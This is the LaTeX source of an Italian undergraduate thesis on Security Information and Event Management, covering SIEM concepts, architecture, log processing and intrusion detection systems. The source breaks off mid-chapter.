%CLASSE DOCUMENTO - LINGUA E DIMENSIONE FONT
\documentclass[corpo=11pt,numerazioneromana]{toptesi}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INCLUSIONE PACCHETTI
\usepackage[classica]{topfront}
\usepackage[utf8]{inputenc} %utf8
\usepackage[italian]{babel}
\usepackage[T1]{fontenc}
\usepackage{blindtext}
\usepackage{graphicx,wrapfig}
\usepackage{booktabs}
\usepackage{lmodern}
\usepackage{varioref}
\usepackage{url}
\usepackage{array}
\usepackage{paralist}{\obeyspaces\global\let =\space}
\usepackage{verbatim}
\usepackage{subfig}
\usepackage{tabularx}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{float}
\usepackage{amssymb}
\usepackage{multicol}
\usepackage{multirow}
\usepackage{listings}
\usepackage[pass]{geometry}
\usepackage[figuresright]{rotating}
\usepackage{algorithm}
\usepackage{algorithmic}
\usepackage{amsmath}
\usepackage[babel]{csquotes}
\usepackage{hyperref}
\usepackage[backend=biber,bibencoding=ascii]{biblatex}

%pacage aggiunti
\usepackage{varwidth}
\usepackage{tasks}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% CONFIGURAZIONE LINK E RIFERIMENTI
\hypersetup{%
    pdfpagemode={UseOutlines},
    bookmarksopen,
    pdfstartview={FitH},
    colorlinks,
    linkcolor={black}, %COLORE DEI RIFERIMENTI AL TESTO
    citecolor={blue}, %COLORE DEI RIFERIMENTI ALLE CITAZIONI
    urlcolor={blue} %COLORI DEGLI URL
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% CONFIGURAZIONE LISTATI/CODICE - CANCELLARE SE NON NECESSARIO
% PYTHON - BIANCO E NERO
\lstset{%
	captionpos=b,
	language=Python,
	basicstyle =\small\ttfamily,
	keywordstyle=\color{black}\bfseries,
	breaklines=true,
	breakatwhitespace=true,
	frame=lines,
	numbers=left,
	numberstyle=\footnotesize,
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% FRENCHSPACING VA _SEMPRE_ ABILITATO PER DOCUMENTI IN ITALIANO
\frenchspacing

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%DEFINIZIONE SEZIONI IN NUMERAZIONE ROMANA
%ELENCO DEI LISTATI/CODICI
\makeatletter
\newcommand\listofcodes{%
 \iffrontmatter\else\frontmattertrue\fi
 \if@openright\cleardoublepage\else\clearpage\fi
 % change the meaning of \chapter in a group
 \begingroup\def\chapter##1{\@schapter}
 \phantomsection % for the hyperlink
 \addcontentsline{toc}{chapter}{Elenco dei listati}
 \lstlistoflistings
 \endgroup
} 
\makeatother

\addto\captionsitalian{%
  \renewcommand{\lstlistlistingname}{Elenco dei listati}%
  \renewcommand{\lstlistingname}{Listato}%
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INFORMAZIONI PDF - PERSONALIZZARE
\pdfinfo{%
  /Title    (Security information and event management )
  /Author   (Andrea Azzalin)
  /Subject  (Tesi Laurea Triennale in Informatica)
  /Keywords (SIEM tesi Azzalin Andrea)
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% LISTA DEI CAPITOLI DA INCLUDERE - PERSONALIZZARE
\includeonly{%
capitoli/1_modelloSIEM,
capitoli/2_architettura,
capitoli/3_CTI,
capitoli/4_caso_di_studio,
capitoli/5_conclusioni
}

% FILE DI BIBLIOGRAFIA
\addbibresource{bibliography.bib}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INIZIO DOCUMENTO
\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\begin{titlepage}
    \begin{center}
        \huge
        \textbf{Università degli Studi di Torino}
        \Large
        Dipartimento di Informatica\\
        \Large
        \vspace{0.5cm}
        Corso di Laurea in Informatica\\
        
        \vspace{1cm}
        
\includegraphics[width=0.4\textwidth]{images/logo.jpg}
        
        \Large
        \vspace{0.5cm}
        Tesi di Laurea in Informatica
         
        \vspace{1cm}
        \textbf{SECURITY INFORMATION AND EVENT MANAGEMENT\\}
        \vspace{0.5cm}
        Informazione e Conoscenza\\
        
        \vspace{1cm}
        \textbf{Relatore:\\}
        Prof. Matteo Sereno\\
        
        
        \vspace{0.5cm}
        \textbf{Candidato:\\}
        Andrea Azzalin\\
        
        \large
        \vspace{1.30cm}
        \textbf{Sessione NOVEMBRE 2020\\}
        a.a 2019/2020\\
      


    \end{center}
\end{titlepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%INTERLINEA - DEFAULT 1 - NON ESAGERATE, NON SUPERATE MAI 1.3 ;)
%\interlinea{1.2}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\frontmatter

% DEDICA - PERSONALIZZARE
% VSPACE - PROPORZIONE USATA PER CENTRATURA VERTICALE DEL TESTO
% FLUSHRIGHT - ALLINEAMENTO ORIZZONTALE A DESTRA
%\vspace*{\stretch{1}}
%\begin{flushright}
%\noindent
%All'amato me stesso
%\end{flushright}
%\vspace*{\stretch{6}}
%\cleardoublepage


% CITAZIONE - PERSONALIZZARE
% VSPACE - PROPORZIONE USATA PER CENTRATURA VERTICALE DEL TESTO
% FLUSHRIGHT - ALLINEAMENTO ORIZZONTALE A DESTRA
%\vspace*{\stretch{1}}
%\begin{flushright}
%\noindent
%Citatemi dicendo che sono stato citato male.

%\textit{Groucho Marx}
%\end{flushright}
%\vspace*{\stretch{6}}
%\cleardoublepage

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% RINGRAZIAMENTI - PERSONALIZZARE
%\ringraziamenti
%hideit


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% ABSTRACT - PERSONALIZZARE
\abstract
L’obiettivo della tesi è descrivere il modello SIEM e la cyber threat intelligence, al fine di dimostrarne l’efficacia dell’integrazione delle due discipline durante i processi di rilevamento e gestione delle minacce IT.\par
La prima parte tratta da un punto di vista teorico il modello SIEM, introducendo le tecnologie e gli strumenti che lo definiscono, per comprenderne il funzionamento e il ruolo in termini di difesa e monitoraggio delle infrastrutture.\par
La seconda parte tratta l’argomento della cyber threat intelligence, di come l’intelligence classica sia stata declinata per soddisfare le esigenze della sicurezza nello scenario cyber.\par
Inoltre verrà descritta l'architettura di una soluzione di sicurezza sviluppata per un cliente durante il mio periodo di stage presso l'azienda Nais, nel quale sono stati utilizzati solamente strumenti opensource, nello specifico: AlienVault Open Source Security Information Manager (OSSIM), Graylog e Malware Information Sharing Platform (MISP). Infine per dimostrare l’obiettivo della tesi, verranno proposte due analisi di tentativi di attacco e di come gli strumenti della soluzione hanno collaborato per l’identificazione e la mitigazione delle attività malevole.\par



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% INDICI - ELIMINARE GLI INDICI NON NECESSARI

% INDICE GENERALE
\tableofcontents

% INDICE DELLE FIGURE
\listoffigures

% INDICE DELLE TABELLE
%\listoftables

% INDICE DEI CODICI
%\listofcodes

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\mainmatter

% INCLUSIONE FILE CAPITOLI - PERSONALIZZARE - TENERE COERENTE CON LISTA IN ALTO
\chapter{Il modello SIEM}
\label{chap:Il modello SIEM}


%\section{Introduzione}
%\label{sec:Introduzione}

Oggi il cyber crimine è una vera e propria industria, con obiettivi ben definiti e “know how” per raggiungerli. \par
L’emergenza Covid-19 ha evidenziato questo fenomeno, mettendo in luce la necessità delle aziende a garantire la sicurezza delle proprie infrastrutture anche in ambienti non tradizionali, come nel caso dello smartworking.\par
Oltre alla consueta e ormai inevitabile crescita degli attacchi, nel corso del 2020 secondo Check Point Software (Cps), società israeliana specializzata nella sicurezza informatica, il numero totale di attacchi informatici segnalati a livello globale relativi al coronavirus è passato dai 200 pre-pandemia a oltre 5.000 al giorno (Petrucciani, 2020) :



\begin{figure}[h]
    \begin{center}
        
\includegraphics[scale=0.6]{images/1_modelloSIEM_img/cpr-coronavirus-graph-2-april.png}
    \end{center}
    \caption{Report Check Point Research degli cyber attack durante l'inizio della pandemia COVID-19}
    \label{fig:Dashboard QRadar}
\end{figure}

\newpage

Oltre al problema di sicurezza sanitaria si è aggiunto anche il problema della sicurezza informatica. Secondo i dati Cps, l’84\% degli attacchi hanno riguardato attività di phishing. L’impatto sanitario ed economico del coronavirus non ha scoraggiato i cybercriminali, anzi è esattamente il contrario, sfruttano la situazione utilizzando la paura del coronavirus come esca (Petrucciani, 2020). \par
A fronte di questi contesti, i sistemi di sicurezza tradizionali non sono più sufficienti, la nuova sfida che si propone consiste nel:


\begin{center}
    \textit{sapere COSA STA SUCCEDENDO e non COSA È GIÀ SUCCESSO}
\end{center}

Ogni CISO (chief information security officer) che si rispetti sa benissimo che raggiungere il “traguardo” della sicurezza informatica è pura utopia. Si può considerare sicuro solo un sistema isolato, quindi non soggetto a contatti esterni.\par 
Considerando il fatto che è inconcepibile, ai giorni d’oggi, pensare di isolare completamente un infrastruttura, quindi è necessario intraprendere un percoso, nel quale viene definita una strategia di difesa del perimetro IT in funzione dei cambiamenti del contesto aziendale e tecnologico.

Negli ultimi anni sono emerse nuove tecnologie e strumenti che fino a pochi anni fa erano inavvicinabili per le medie e piccole aziende, per via dei costi, dei tempi e della complessità di implementazione.
Stiamo parlando dei sistemi SIEM, di seguito le soluzioni offerte dei maggiori vendor, sia per il mondo commerciale che opensource:



\begin{itemize}
    \item{IBM Qradar}; 
    \item{Splunk};
    \item{Alienvault OSSIM}.
\end{itemize}

\section{Definzione del modello}
\label{sec:Definzione del modello}

SIEM è l’acronimo di “Security Information and Event Management”, il termine è stato coniato da Amrit Williams e Mark Nicolett nel 2005, quando entrambi lavoravano per Gartner.\par
I SIEM devono rispondere all’esigenza che è sorta nel corso degli anni di applicare in maniera sistematica un’analisi computazionale di dati o statistiche inerenti alla sicurezza informatica, quest’analisi deve avvenire in tempo reale in modo da rilevare in maniera tempestiva attacchi mirati e violazioni dei dati (“data breaches”), altra necessità che i SIEM devono soddisfare è quella di raccogliere, memorizzare, analizzare e rendere disponibile in forma di report i dati provenienti dai log per esigenze di incident response, di compliance in ambito regolatorio o per attività di analisi forense (Cristiani, 2020).

\newpage

Le tecnologie SIEM aggregano dunque i dati corrispondenti agli eventi prodotti da dispositivi di sicurezza.\par

Tecnicamente il SIEM e’ la combinazione di due funzioni di management indispensabili per la cybersicurezza: quella delle informazioni/Log management (SIM) e quella degli eventi (SEM).\newline

Il SEM è una soluzione software che, in tempo reale, provvede al monitoraggio e alla gestione degli eventi che accadono all'interno della rete e sui vari sistemi di sicurezza, fornendo una correlazione e aggregazione tra essi. L’interfaccia è una console centralizzata, preposta ad attività di monitoraggio, segnalazione e risposta automatica a determinati eventi (Networkdigital360, 2019).\newline

Il SIM (Security Information Management), è una soluzione che automatizza il processo di raccolta e gestione dei log (ma non in tempo reale). I dati vengono raccolti e spediti ad un server centralizzato tramite l’utilizzo di software agent installati sui vari dispositivi del sistema monitorato. La possibilità di usufruire di spazi di archiviazione a lungo termine unita all'analisi dei dati consente la generazione di report personalizzati (Networkdigital360, 2019).\newline

La principale fonte dati del SIEM sono i log, ma hanno anche la capacità di elaborare le informazioni sotto altre forme, come il Netflow .
In generale, il SIEM riceve dati “grezzi”, i quali tramite un processo di normalizzazione possono essere utilizzati per eseguire le operazioni di correlazione e di detection di anomalie.\par
Le regole di correlazione sono indispensabili per individuare attacchi complessi, correlando eventi di sicurezza permettendo agli operatori di avere una visione chiara su cosa sta succedendo.\par
Inoltre e’ possibile integrare le funzioni di incident management con workflow automatizzati, denominate SOAR (Security Orchestration Automation and Response), alleggerendo di gran lunga il lavoro degli amministratori di sistema, essendo in grado di reagire in modo automatico agli eventi.\par
I maggiori vendor SIEM, hanno compreso la potenzialità dell’ intelligenza artificiale e machine learning, tant'è che ormai l’integrazione con tale tecnologia è diventato uno standard, incrementando nuove funzionalità e ottimizzando velocità e precisione dei sistemi.



\section{SIEM Next-Gen}
\label{sec:SIEM Next-Gen}

I SIEM hanno fatto la loro comparsa sul mercato nel 1997, con lo scopo di limitare i falsi positivi generati dagli IDS (Intrusion Detection System). Le successive evoluzioni puntavano nel migliorare la gestione dei big data da elaborare, ma persisteva la complessità delle fasi implementative e soprattutto la limitata scalabilità e integrazione con altri strumenti di sicurezza.\par
L’offerta dei vendor, infatti, aveva sovrastimato la capacità dei responsabili della sicurezza di gestire il cambio di passo introdotto da una soluzione SIEM.\par
Oggi i sistemi di nuova generazione non solo sono diventati più agili, modulari e flessibili ma offrono il massimo valore, con dei costi di implementazione e operativi decisamente inferiori, per questo sono adottati da ogni tipo di organizzazione che ha a cuore la sicurezza, indipendentemente dalle dimensioni e dai settori di riferimento.\par

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.95\columnwidth]{images/1_modelloSIEM_img/splunk_UBA.png}
    \end{center}
    \caption{Uso del machine learning nel SIEM Splunk}
    \label{fig:Uso del machine learning nel SIEM Splunk}
\end{figure} 


Il vero salto generazionale è stato segnato dall’integrazione con la tecnologia dell’Intelligenza Artificiale e, in particolare, il Machine Learning, ottenendo importanti vantaggi: 


\begin{itemize}
    \item\textbf{Affrontare i rischi sconosciuti:} Identificando gli attacchi zero-day e le minacce interne che appaiono molto simili alla normale attività dell'utente.; 
    \item\textbf{Identificare le anomalie nel comportamento dell'utente o del dispositivo:} Modellando il comportamento normale degli utenti, dei dispositivi di rete o di gruppi e identificando quando un utente o un dispositivo si discosta dalla norma e mostra un comportamento sospetto;
    \item\textbf{Identificare anomalie della network:} Modella il comportamento normale della rete e se identifica se qualcosa di strano sta accadendo rispetto a uno specifico segmento di rete, tipo di traffico, ora del giorno o periodo;
    \item\textbf{Dimiuire I falsi positivi:} Gli algoritmi di machine learning utilizzati nell'ambito dell'analisi comportamentale possono aiutare a controllare la percentuale di falsi positivi attraverso il monitoraggio e la regolazione delle policy attivate;
    \item\textbf{Incident response automatico: } L'esecuzione di playbook di sicurezza automatizzati in risposta alle minacce rilevate dalle tecniche di apprendimento automatico.
\end{itemize}

Per contro, l’AI può essere sfruttata anche da malintenzionati per mettere in atto attacchi sempre più sofisticati, come per esempio la creazione di nuovi malware in grado di sviluppare comportamenti adattativi o lo sviluppo automatico di campagne di phishing efficaci (Antonielli A. \& Dragoni G. , 2020).

\chapter{Architettura}
\label{chap:Architettura}

In questo capitolo verranno definiti i componenti che costituiscono un sistema SIEM, come passano dai dati grezzi degli eventi alle informazioni sulla sicurezza e come gestiscono i dati degli eventi su vasta scala per poter monitorare e rispondere ad eventi di sicurezza.\par
Sebbene non esista uno standard che definisca l’architettura del modello SIEM, è tuttavia possibile descrivere i moduli di cui solitamente si compone e le loro interazioni:


\begin{itemize}
    \item{Log sources}; 
    \item{Log collector};
    \item{Log processing flow};
    \item{Detection and correlation};
    \item{Dashboard and reporting};
\end{itemize}

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.80\columnwidth]{images/2_architettura_img/architettura_SIEM.png}
\end{center}
\caption{Schema architettura SIEM}
\label{fig:Schema architettura SIEM}
\end{figure}



\section{Log sources}
\label{sec: 2.1 Log sources}

All’interno delle organizzazioni sono presenti oggetti e applicazioni, che possono essere utilizzati come fonte dati per il SIEM.\par
Ad esempio possiamo ricevere informazioni da dispositivi specializzati a proteggere la network, come: 

\begin{itemize}
    \item\textbf{Firewall e Intrusion Prevention System (IPS);}
    \item\textbf{Virtual Private Network software (VPN);}
    \item\textbf{Web Proxy;} 
    \item\textbf{Sistemi di autenticazione;}
\end{itemize}

I log grezzi generati da questi dispositivi in particolare, contengono informazioni utili per monitorare e rilevare eventuali attività ostili.

\section{Log collector}
\label{sec:Log collector}

Per ricevere i dati dalle log source, i SIEM generalmente supportano molti protocolli di comunicazione, di seguito i più comuni: 

\begin{itemize}
    \item\textbf{Syslog:} Un protocollo di log standard. Gli amministratori di rete possono impostare un server Syslog che riceve i log da più sistemi, memorizzandoli in un formato efficiente, condensato e facilmente interrogabile.
    Gli aggregatori di log possono leggere ed elaborare direttamente i dati Syslog;
    \item\textbf{Event Streaming:} Protocolli come SNMP, Netflow e IPFIX consentono ai dispositivi di rete di fornire informazioni standard sulle loro operazioni, che possono essere intercettate dall'aggregatore di log, analizzate e aggiunte alla memoria centrale dei log;
    \item\textbf{Log Collectors:} Agenti software che girano su dispositivi di rete, catturano le informazioni di log, le analizzano e le inviano a un componente aggregatore centralizzato per l'archiviazione e l'analisi;
    \item\textbf{Direct Access:} Gli aggregatori di log possono accedere direttamente ai dispositivi di rete o ai sistemi informatici, utilizzando un'API o un protocollo di rete per ricevere direttamente i log. Questo approccio richiede un'integrazione personalizzata per ogni fonte di dati;
\end{itemize}

\newpage

\section{Log processing flow}
\label{sec:Log processing flow}

L'elaborazione dei log è l'arte di prendere i raw log dai log source, identificarne la struttura o lo schema e trasformarli in una fonte di dati coerente e standardizzata, questo processo viene definito normalizzazione.\par
Il processo di normalizzazione è composto da tre fasi principali:


\begin{enumerate}
    \item\textbf{Log normalization and categorization} La maggior parte dei log cattura le stesse informazioni di base: ora, indirizzo di rete, operazione eseguita, ecc..
    La normalizzazione fonde gli eventi contenenti dati diversi in un formato ridotto che contiene gli attributi comuni degli eventi.
    Questa operazione è possibile grazie a componente software in grado di prendere in input un formato di log specifico e convertirlo in dati strutturati.
    Il software di aggregazione dei log comprende decine o centinaia o parser scritti per elaborare i log di sistemi comuni;
    \item\textbf{Log enrichment:} L'arricchimento dei log comporta l'aggiunta di informazioni importanti che possono rendere i dati più utili. Ad esempio, se nel corpo del log originale sono presenti indirizzi IP, si può aggiungere la geolocalizzazione o la presenza di tali IP in qualche blacklist;
    \item\textbf{Log indexing:} Per gestire le moli di log che vengono generati dalle reti moderne,  è necessario adottare delle strategie di indicizzazione per ottimizzare la velocità di ricerca e avere un organizzazione logica dei dati;
\end{enumerate}

\section{Detection and correlation }
\label{sec:Detection and correlation }

Monitorare significa analizzare i dati raccolti e ricercare pattern di eventi particolarmente utili in termini di sicurezza e in caso di anomalie attivare i sistemi di allarme.\par

I due concetti di base della gestione dei log di sicurezza sono gli \textbf{eventi} e gli \textbf{incidenti}.
\newpage

\subsection{Detection}
Un evento è qualcosa che accade su una rete o su un dispositivo endpoint, vengono generati dal monitoraggio dei log e tramite \textbf{Sistemi Intrusion Detection (IDS)}.

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/QRadarEvent.png}
\end{center}
\caption{Evento SIEM QRadar}
\label{fig:Evento SIEM QRadar}
\end{figure}

\subsubsection{Intrusion detection system (IDS) }

IDS è un dispositivo software o hardware utilizzato per identificare accessi non autorizzati ai computer o alle reti locali. \par
Un IDS è composto da quattro componenti:
\begin{itemize}
    \item Uno o più sensori utilizzati per ricevere le informazioni dalla rete o dai computer;
    \item Un motore che analizza i dati prelevati dai sensori e provvede a individuare eventuali falle nella sicurezza informatica;
    \item Una console utilizzata per monitorare lo stato della rete e dei computer;
    \item Un database cui si appoggia il motore di analisi e dove sono memorizzate una serie di regole utilizzate per identificare violazioni della sicurezza;

\end{itemize}

Un IDS consiste quindi in un insieme di tecniche e metodi realizzati ad-hoc per rilevare pacchetti dati sospetti a livello di rete, di trasporto o di applicazione.\par
Per definizione l’IDS è un sistema di rilevazione, quindi è “passivo”, ovvero non esegue azioni correttive: sarà l’operatore a stabilire le opportune contromisure per bloccare l’attacco (Sbaraglia, 2019).\newpage

I sistemi IDS possono essere divisi in due tipologie, in base alla posizione dei sensori per il rilevamento delle intrusioni (sulla rete o su un endpoint):


\begin{itemize}
    \item\textbf{Network Intrusion Detection System (NIDS):} Poiché gli accessi non autorizzati devono passare necessariamente attraverso il protocollo TCP/IP ovvero l’UDP (User Datagram Protocol), i sistemi IDS basati su rete analizzano i pacchetti IP, vigilando l’intero traffico dati della rete (Sbaraglia, 2019);
    \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/HIDSRule.png}
    \end{center}
    \caption{Regola HIDS OSSEC che rileva la presenza di un rootkit sull’endpoint}
    \label{fig:Regola HIDS OSSEC che rileva la presenza di un rootkit sull’endpoint}
    \end{figure}
    
    \item\textbf{Host based intrusion detection system (HIDS):} Tramite un agent installato sull’host, sono in grado di monitorare le attività interne alla macchina. Possono anche integrare funzioni di firewall, EDR e sandboxing; 
    \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/suricataRule.png}
    \end{center}
    \caption{Regola NIDS Suricata che rileva traffico sospetto sulla porta 445}
    \label{fig:Regola NIDS Suricata che rileva traffico sospetto sulla porta 445}
    \end{figure}
    
\end{itemize}

\newpage

I sistemi moderni tendono a combinare le due tecnologie, definendo una tipologia ibrida denominata Hybrid Intrusion Detection System.\par
Per il rilevamento gli IDS utilizzano diverse tecniche, che possono essere suddivise in due macro categorie:


\begin{itemize}
    \item\textbf{Misuse detection:} Confronta una serie di regole (signature action) delle varie tipologie di scenari di intrusione conosciute.
    Presentano il vantaggio di generare un numero relativamente basso di falsi positivie sono relativamente affidabili e veloci. Per contro non sono in grado di rilevare qualsiasi tipologia di intrusione se essa non è presente nei patterni di intrusione conosciuti ed impostati nel sistema;

    \begin{figure}[h]
    \begin{center}
